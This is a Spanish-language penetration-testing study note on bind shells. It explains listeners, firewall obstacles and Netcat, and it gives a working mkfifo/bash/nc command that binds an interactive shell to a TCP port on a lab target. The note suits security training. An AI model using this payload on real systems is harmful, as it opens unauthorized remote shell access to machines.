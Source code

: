 ```yaml
---
{"dg-publish":true,"permalink":"/penetration-tester-path/bind-shells/"}
---
```



En muchos casos, trabajaremos para establecer un `Shell` en un sistema de red local o remota. Esto significa que usaremos el emulador de terminal en nuestra *máquina de ataque local* para controlar el sistema remoto a través de su Shell. Esto normalmente se hace usando un `Bind` y/o una `Reverse` Shell.

## Qué es?

Con un Shell de enlace, el sistema de destino tiene un oyente iniciado y espera una conexión del sistema de un Pentester (attack box).

![Pasted image 20250615055557.png](/img/user/imgs/Pasted%20image%2020250615055557.png)
Como se ve en la imagen, nos conectaríamos directamente con la`dirección IP` y el puerto de escucha del objetivo. Obtener un Shell de esta manera puede presentar varios desafíos. Algunos a considerar:

- Tendría que haber un oyente que ya haya empezado a trabajar en el objetivo.
- Si no hay ningún oyente iniciado, necesitaremos encontrar una forma de hacer que esto suceda.
- Los administradores generalmente configuran reglas estrictas de firewall entrante y NAT (con implementación de PAT) en el borde de la red (orientada al público), por lo que ya necesitaríamos estar en la red interna.
- Es probable que los firewalls del sistema operativo (en Windows y Linux) bloqueen la mayoría de las conexiones entrantes que no estén asociadas con aplicaciones confiables basadas en red.

Los firewalls del sistema operativo pueden ser problemáticos al establecer un Shell, ya que necesitamos considerar las direcciones IP, los puertos y la herramienta en uso para que nuestra conexión funcione correctamente. En el ejemplo anterior, la aplicación utilizada para iniciar el oyente se llama GNU `NetCat`. **NetCat (NC)** se considera nuestro cuchillo de ejército suizo, ya que puede funcionar sobre `TCP`, `UDP`, y sockets `Unix`. Es capaz de usar `IPv4` e `IPv6`, abrir y escuchar en sockets, funcionar como un proxy e incluso tratar con la entrada y salida de texto. Usaríamos **NC** en el cuadro de ataque como nuestro cliente, y el objetivo sería el servidor.

---

![Pasted image 20250615060450.png](/img/user/imgs/Pasted%20image%2020250615060450.png)

## Establishing a Basic Bind Shell with Netcat

Hemos demostrado que podemos usar NetCat para enviar texto entre el cliente y el servidor, pero este no es un Shell de enlace porque no podemos interactuar con el sistema operativo y el sistema de archivos. Solo podemos pasar el texto dentro de la configuración de la tubería por NetCat. Usemos Netcat para servir nuestro caparazón para establecer un shell de enlace real. En el lado del servidor, necesitaremos especificar el directorio, el Shell, el oyente, trabajar con algunas canalizaciones y la redirección de entrada y salida para garantizar que se envíe un Shell al sistema cuando el cliente intente conectarse.

#### No. 1: Server - Binding a Bash shell to the TCP session

```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

Los comandos anteriores se consideran nuestra carga útil, la cual entregamos manualmente. Notaremos que los comandos y el código de nuestras cargas útiles variarán según el sistema operativo host al que las entreguemos.

De regreso en el cliente, use Netcat para conectarse al servidor ahora que se está sirviendo un shell en el servidor.

![Pasted image 20250615060728.png](/img/user/imgs/Pasted%20image%2020250615060728.png)

---
#Shell #bind-shell

---